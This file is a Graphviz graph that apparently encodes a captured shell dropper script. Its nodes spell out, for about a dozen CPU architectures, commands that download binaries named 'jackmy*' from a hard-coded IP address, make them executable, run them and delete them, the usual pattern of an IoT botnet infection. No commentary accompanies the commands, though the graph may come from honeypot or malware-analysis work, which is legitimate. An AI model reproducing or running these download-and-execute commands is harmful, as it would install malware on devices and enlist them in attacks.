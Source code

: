 digraph {
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 10 [label="||,"];
10 [label="wget http://109.236.88.125/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 28 [label="||,"];
28 [label="wget http://109.236.88.125/jackmymipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymipsel "];
30 -> 32 [label=";,"];
32 [label="./jackmymipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymipsel "];
34 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 46 [label="||,"];
46 [label="wget http://109.236.88.125/jackmysh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmysh4 "];
48 -> 50 [label=";,"];
50 [label="./jackmysh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmysh4 "];
52 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 64 [label="||,"];
64 [label="wget http://109.236.88.125/jackmyx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmyx86 "];
66 -> 68 [label=";,"];
68 [label="./jackmyx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmyx86 "];
70 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 82 [label="||,"];
82 [label="wget http://109.236.88.125/jackmyi586 "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmyi586 "];
84 -> 86 [label=";,"];
86 [label="./jackmyi586 "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmyi586 "];
88 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 100 [label="||,"];
100 [label="wget http://109.236.88.125/jackmyi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmyi686 "];
102 -> 104 [label=";,"];
104 [label="./jackmyi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmyi686 "];
106 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 118 [label="||,"];
118 [label="wget http://109.236.88.125/jackmypowerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmypowerpc "];
120 -> 122 [label=";,"];
122 [label="./jackmypowerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmypowerpc "];
124 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 136 [label="||,"];
136 [label="wget http://109.236.88.125/jackmypowerpc440fp "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmypowerpc440fp "];
138 -> 140 [label=";,"];
140 [label="./jackmypowerpc440fp "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmypowerpc440fp "];
142 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 154 [label="||,"];
154 [label="wget http://109.236.88.125/jackmym86k "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmym86k "];
156 -> 158 [label=";,"];
158 [label="./jackmym86k "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmym86k "];
160 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 172 [label="||,"];
172 [label="wget http://109.236.88.125/jackmysparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmysparc "];
174 -> 176 [label=";,"];
176 [label="./jackmysparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmysparc "];
178 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 190 [label="||,"];
190 [label="wget http://109.236.88.125/jackmyarmv4 "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmyarmv4 "];
192 -> 194 [label=";,"];
194 [label="./jackmyarmv4 "];
194 -> 196 [label=";,"];
196 [label="rm -rf jackmyarmv4 "];
196 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 208 [label="||,"];
208 [label="wget http://109.236.88.125/jackmyarmv4tl "];
208 -> 210 [label=";,"];
210 [label="chmod +x jackmyarmv4tl "];
210 -> 212 [label=";,"];
212 [label="./jackmyarmv4tl "];
212 -> 214 [label=";,"];
214 [label="rm -rf jackmyarmv4tl "];
214 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 226 [label="||,"];
226 [label="wget http://109.236.88.125/jackmyarmv5 "];
226 -> 228 [label=";,"];
228 [label="chmod +x jackmyarmv5 "];
228 -> 230 [label=";,"];
230 [label="./jackmyarmv5 "];
230 -> 232 [label=";,"];
232 [label="rm -rf jackmyarmv5 "];
232 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/system "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 244 [label="||,"];
244 [label="wget http://109.236.88.125/jackmyarmv6 "];
244 -> 246 [label=";,"];
246 [label="chmod +x jackmyarmv6 "];
246 -> 248 [label=";,"];
248 [label="./jackmyarmv6 "];
248 -> 249 [label=";,"];
}
